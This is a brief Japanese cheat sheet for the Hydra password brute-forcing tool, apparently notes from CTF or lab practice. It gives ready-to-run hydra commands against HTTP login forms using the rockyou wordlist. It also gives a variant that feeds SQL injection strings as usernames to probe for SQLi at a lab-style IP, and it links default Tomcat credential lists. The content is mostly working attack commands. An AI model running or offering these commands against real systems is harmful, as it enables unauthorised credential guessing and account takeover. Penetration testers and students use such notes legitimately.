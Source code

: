 # hydra
- 力こそパワー!BruteForce!
- ftpとかsshとかにも使える

## usage
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt <ip> http-form-post "/path/to/form:Username=^USER^&Password=^PASS^(request body):Login failed(error message)"
```

## その他テクニック
```
hydra -L SQL.txt -p pass 10.10.192.4 http-post-form "/index.php:username=^USER^&password=^PASS^&x=30&y=:Incorrect Login" -f
```

- [SQL.txt](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/SQL.txt) を使うとSQLiのチェックもできる
- -fでcredentialが見つかったら処理を止める

## 相性良さげなlist
tomcatのdefaultpasslist
- [tomcat-betterdefaultpasslist.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt)
- [SQL.txt](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/SQL.txt)
